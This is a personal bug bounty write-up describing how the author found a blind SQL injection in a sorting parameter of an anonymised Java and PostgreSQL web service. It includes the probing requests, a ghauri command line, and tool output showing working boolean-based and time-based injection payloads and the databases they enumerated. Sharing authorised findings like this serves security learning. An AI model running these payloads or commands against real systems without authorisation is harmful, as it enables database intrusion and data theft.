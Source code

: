 ```yaml
---
title: How I Got My First €€€€ Bounty
categories: [BugBounty]
tags: [BugBounty, Infosec, SQL Injection, sqlmap]
image:
  path: /assets/img/First_€€€€/main.webp
---
```

## Disclaimer: This isn’t meant to teach anything new—just sharing a personal experience.
### سَلامٌ

I'll share in this write-up how I discovered my first €€€€ bounty.

At first, I started with basic manual recon because the program's scope was just a set of URLs related to different services, such as:

- `https://ex.admin.service.example.com/`
- `https://ex.service.service.example.com/`
- `https://ex.abc.service.example.com/`

The program also provided credentials to test different roles.

I then browsed the sites while proxying the traffic through Burp and testing the functionalities like a normal user. However, there weren’t any interesting features—except for the sorting functionality. I noticed some intriguing parameters that I had already seen in some *JS* files:

`SelectedSources` and `SelectedTemplateNames`.  

At first, I thought they might fetch data from a database (yeah that makes sense :D), so I decided to test them with special characters, searching for anomalies like `{", ', \}`. When I entered a single quote, I got a `500 HTTP status code (Internal Server Error)`. Adding another single quote returned a `200 HTTP status code (OK)`.

```
https://ex.service.example.com/history?selectedSources=someSources' > 500

https://ex.service.example.com/history?selectedSources=someSources'' > 200
```

Sometimes, I use a backslash to confirm my suspicions. In this case, I got a `400 Bad Request` (since it was a Java app running on Apache Tomcat, the backslash needed to be encoded as `%5c`).

```
https://ex.service.example.com/history?selectedSources=someSources\' > 400
```

After that, I tried running `sqlmap` to extract the database version. Unfortunately, `sqlmap` didn’t retrieve anything except that the DBMS was `PostgreSQL`. However, I didn’t give up—I switched to `ghauri` instead:

```
ghauri -u "https://ex.service.example.com/history?selectedSources=someSources" --dbms=postgres --cookie="JSESSIONID=09326D266052B6B0F7E391B7BBD3A284" --dbs
```

**Boom!**

```
[09:22:32] [INFO] testing connection to the target URL
Ghauri resumed the following injection point(s) from stored session:                                                                                                                                                                                                                                          
Parameter: selectedSources (GET)                                                                                                                                                                                                             
    Type: boolean-based blind                                                                                                                                                                                                               
    Title: OR boolean-based blind - WHERE or HAVING clause                                                                                                                                                                                  
    Payload: selectedSources=someSources') OR 06690=6690 OR ('04586'='4586                                                                                                                                                                       

    Type: time-based blind                                                                                                                                                                                                                   
    Title: PostgreSQL > 8.1 AND time-based blind (comment)                                                                                                                                                                                  
    Payload: selectedSources=someSources') AND 4564=(SELECT 4564 FROM PG_SLEEP(6)) OR ('04586'='4586                                                                                                                                                                                                                                                                                                                                                                              
[09:22:33] [INFO] testing PostgreSQL
[09:22:34] [INFO] confirming PostgreSQL
[09:22:34] [INFO] the back-end DBMS is PostgreSQL
[09:22:34] [INFO] fetching database names
[09:22:34] [INFO] fetching number of databases
[09:22:51] [INFO] retrieved: 3
[09:26:01] [INFO] retrieved: information_schema
[09:27:51] [INFO] retrieved: pg_catalog
[09:28:57] [INFO] retrieved: public
available databases [3]:
[*] pg_catalog
[*] public
[*] information_schema
```

I reported the vulnerability, and within just one hour, the triager forwarded my report to the company. They quickly acknowledged the issue.

![main](/assets/img/First_€€€€/main.webp)

The next day, the company awarded me a bounty.

![accepted](/assets/img/First_€€€€/accepted.webp)

**Final Thoughts:**  
Don’t limit yourself to just one tool, technique, or program you don’t fully understand—it will only burn you out. The internet is already full of vulnerabilities waiting to be discovered.

Twitter/X: [https://x.com/MachIaVellill](https://x.com/MachIaVellill)

### سَلامٌ
